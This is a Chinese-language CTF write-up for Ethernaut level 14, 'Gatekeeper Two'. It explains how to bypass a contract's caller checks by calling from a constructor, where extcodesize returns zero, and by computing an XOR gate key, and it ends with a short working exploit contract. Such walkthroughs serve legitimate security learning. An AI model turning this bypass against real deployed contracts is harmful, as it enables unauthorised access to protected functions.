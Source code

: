 
# level 14: Gatekeeper Two

## 1. 问题

要求你成功调用 `GatekeeperTwo` 合约的 `enter` 函数，函数成功执行不抛异常。也就是可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```


## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateTwo` 

2. `gateTwo` 要求 `extcodesize(caller())` 值为 0. 这个看似要求调用方不是合约地址。但是实际上在合约部署时，合约的 `constructor` 函数内调用其他合约时，因为当前合约没有部署完成，所以 `extcodesize(**)` 会返回 `0`。

> [!NOTE]
> 1. 如果单纯想判断调用方是否是EOA，使用 `tx.origin == msg.sender` 来判断更准确
> 2. 真实情况，绝大部分合约的接口都需要支持合约调用，这个校验不可能部署到所有接口，适用场景有限


### 2.3. `gateThree`

3. 异或操作 `^` 满足 `如果 A^B=C，那么 A^C=A^(A^B)=(A^A)^B=0^B=B`。所以满足 `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max` 的 `_gateeKey` 可以通过计算得到 `uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max`。这个值，我们通过合约自动算好填入。


4. 最终我们的hack合约如下：

```solidity
contract HackGatekeeperTwo {
    constructor(address _gk2) {
        GatekeeperTwo two = GatekeeperTwo(_gk2);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ type(uint64).max);
        two.enter(key);
    }
}
```

> [!TIP]
> 这里我们提供一个测试文件 [Level14.t.sol](../../test/level14/Level14.t.sol)
> 可以在提交之前进行本地调试，调试成功再在测试链上执行

5. 通过remix部署到sepolia上，交易地址 [0xeabf3add56d3e545c1e6469b3af6dd8657f15b20782c964401e8a58f1f1dd08d](https://sepolia.etherscan.io/tx/0xeabf3add56d3e545c1e6469b3af6dd8657f15b20782c964401e8a58f1f1dd08d)

6. 点击 `submit instance`， 提交通过！



<br/>
<br/>
| [⬅️ level13 GatekeeperOne](../level13_gatekeeper_one/README.md) | [level15 NaughtCoin ➡️](../level15_naughtcoin/README.md) |
|:------------------------------|--------------------------:|
